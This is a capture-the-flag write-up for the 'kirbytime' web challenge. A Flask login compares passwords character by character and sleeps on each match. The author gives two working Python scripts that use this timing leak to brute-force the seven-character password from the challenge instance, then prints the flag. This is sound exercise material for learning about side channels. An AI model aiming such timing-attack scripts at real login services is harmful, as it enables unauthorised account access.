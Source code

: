 # web/kirbytime

## About
"Welcome to Kirby's Website."
And there's a button that you can start the instance.

The following files are given:
![files](./web-kirbytime-asset/files.png)

main.py:
```python
import sqlite3
from flask import Flask, request, redirect, render_template
import time
app = Flask(__name__)


@app.route('/', methods=['GET', 'POST'])
def login():
    message = None
    if request.method == 'POST':
        password = request.form['password']
        real = 'REDACTED'
        if len(password) != 7:
            return render_template('login.html', message="you need 7 chars")
        for i in range(len(password)):
            if password[i] != real[i]:
                message = "incorrect"
                return render_template('login.html', message=message)
            else:
                time.sleep(1)
        if password == real:
            message = "yayy! hi kirby"

    return render_template('login.html', message=message)

if __name__ == '__main__':
    app.run(host='0.0.0.0')
```

login.html:
```html
.
.
.

<body>
    <h1>welcome back kirby :33</h1>
    <p>we will wait for u as u take ur time entering ur 7 character password</p>
    
    <div class="container">
        <img src="/static/kirby.png" class="kirby-image">
        <div class="form-container">
            <form action="/" method="POST">
                <label for="password">Password:</label>
                <input type="password" name="password" id="password"><br>
                <input type="submit" value="Login">
            </form>
            {% if message %}
                <p>{{ message }}</p>
            {% endif %}
        </div>
    </div>
</body>
```

## Recon
It looks like we have to figure out that 7 digit password.
Since the Python code checks the password one character by one and sleeps for 1 second if a character matches, we can exploit that behavior.

## Exploitation
Given the above information, I wrote a Python script:
```python
import requests
import time

url = 'http://34.31.154.223:50017'
password = [' '] * 7
charset = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'
password_found = ''

def measure_response_time(password_attempt):
    start_time = time.time()
    response = requests.post(url, data={'password': password_attempt})
    end_time = time.time()
    return end_time - start_time

for i in range(7):
    for char in charset:
        temp_password = password
        temp_password[i] = char
        passowrd_attempt = ''.join(temp_password)
        response_time = measure_response_time(passowrd_attempt)
        if response_time > (i+1):
            password[i] = char
            password_found += char
            print('Password found: ' + password_found)
            break
```
![run](./web-kirbytime-asset/run.png)

Due to the 10-minute time limit of the instance, I had to run the following script to figure out the last character of the password.
```python
import requests
import time

url = 'http://34.31.154.223:51478'
password = ['k','B','y','S','l','a','?']
charset = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'
password_found = ''

def measure_response_time(password_attempt):
    start_time = time.time()
    response = requests.post(url, data={'password': password_attempt})
    end_time = time.time()
    return end_time - start_time

for char in charset:
    temp_password = password
    temp_password[6] = char
    passowrd_attempt = ''.join(temp_password)
    print("Trying: " + passowrd_attempt)
    response_time = measure_response_time(passowrd_attempt)
    if response_time > (6+1):
        password[6] = char
        password_found += char
        print('Password found: ' + password_found)
        break
```

Flag: LITCTF{kBySlaY}